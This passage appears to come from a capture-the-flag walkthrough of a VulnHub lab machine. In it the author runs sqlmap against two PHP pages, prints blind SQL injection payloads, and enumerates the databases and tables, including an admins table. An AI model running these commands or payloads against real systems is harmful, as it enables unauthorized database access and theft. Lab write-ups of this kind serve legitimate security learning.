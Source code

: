 ```
sqlmap -u http://192.168.56.2/index.php --data "name=asd&msg=asd" --level=5 --risk=3 --random-agent --batch
```

Bingo:

```
sqlmap identified the following injection point(s) with a total of 7776 HTTP(s) requests:
---
Parameter: name (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=asd'||(SELECT 'RbDO' FROM DUAL WHERE 4795=4795 AND SLEEP(5))||'&msg=asd
---
```

Let's also test the `report.php` file for SQL-Injection issues:

```
sqlmap -u http://192.168.56.2/report.php --data="issue=asdf" --random-agent --level=5 --risk=3
```

```
sqlmap identified the following injection point(s) with a total of 142 HTTP(s) requests:
---
Parameter: issue (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: issue=asdf'||(SELECT 'oYQt' FROM DUAL WHERE 9026=9026 AND 7350=7350)||'

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: issue=asdf'||(SELECT 'RdBC' FROM DUAL WHERE 9919=9919 AND SLEEP(5))||'
---
```

So we have found 2 time based and one boolean based blind injection. We will use the vulnerability in `report.php` to dump the database as the boolean based blind attack is a lot faster then the time based attack.

So let's enumerate the available DBs using the `--dbs` parameter:

```
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] vulnhub
```

Now let's look at the `vulnhub` database with `-D vulnhub --tables`:

```
Database: vulnhub
[3 tables]
+----------------------------------------------+
| admins                                       |
| guestbook                                    |
| issues                                       |
+----------------------------------------------+
```
